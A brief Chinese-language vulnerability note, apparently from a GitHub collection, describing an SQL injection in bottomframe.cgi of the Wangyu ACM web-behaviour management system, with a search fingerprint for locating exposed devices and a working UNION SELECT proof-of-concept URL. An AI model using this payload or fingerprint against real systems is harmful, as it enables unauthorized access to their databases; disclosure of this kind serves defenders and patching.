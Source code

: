 # 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

# 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

## 漏洞描述

网御 ACM上网行为管理系统 bottomframe.cgi 存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感信

## 漏洞影响

网御 ACM上网行为管理系统

## 网络测绘

```
"scripts/webcommon.js"
```

## 漏洞复现

登录页面

![image-20230828161622332](images/image-20230828161622332.png)

验证POC

```
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

![image-20230828161702043](images/image-20230828161702043.png)

